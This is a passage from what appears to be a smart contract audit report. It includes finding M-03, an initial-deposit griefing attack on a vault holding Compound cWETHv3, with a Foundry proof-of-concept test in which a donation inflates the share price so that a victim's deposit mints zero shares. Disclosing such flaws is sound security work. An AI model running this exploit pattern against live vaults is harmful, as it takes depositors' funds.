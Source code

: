 ## Recommendations

Consider putting the minimum output as a parameter inside the `harvest` function, and if this function is planned to be frequently called by bots, it could be restricted so that only certain roles can invoke it.

# [M-03] Initial griefing attack possible

## Severity

**Impact:** High, as the victim loses their funds

**Likelihood:** Low, as it comes at a cost for the attacker

## Description

The famous initial deposit attack is largely mitigated by the solady library. However, doing this attack can cause some weird behavior that could grief users (at high cost of the attacker) and leave the vault in a weird state:

Here's a PoC showing the impacts

```solidity
    address bob = makeAddr("bob");

    function testInitialSupplyAttack() public {
    	// attacker starts with 13 ether
        _getCWETH(13e18 + 6);

        // initial small deposit
        vault.deposit(11,address(this));
        assertEq(10,vault.balanceOf(address(this)));

        // large deposit to inflate the exchange rate
        _COMET.safeTransfer(address(vault),11e18-9);

        // share price is not 1e18 assets
        assertEq(1e18,vault.convertToAssets(1));

        // boilerplate to get cWETHv3
        deal(_WETH,bob,1e18 + 3);
        vm.startPrank(bob);
        _WETH.safeApprove(_COMET,1e18+3);
        IComet(_COMET).supply(_WETH, 1e18+3);
        _COMET.safeApproveWithRetry(address(vault), type(uint256).max);

        // victim deposits into the vault
        vault.deposit(1e18+1,bob);
        // due to exchange rate gets 0 shares
        assertEq(0,vault.balanceOf(bob));
        vm.stopPrank();

        vault.redeem(10, address(this), address(this));
        console.log("exchange rate",vault.convertToAssets(1));
        console.log("_COMET.balanceOf(address(vault))",_COMET.balanceOf(address(vault)));
        console.log("_COMET.balanceOf(address(attacker))",_COMET.balanceOf(address(this)));
    }
```

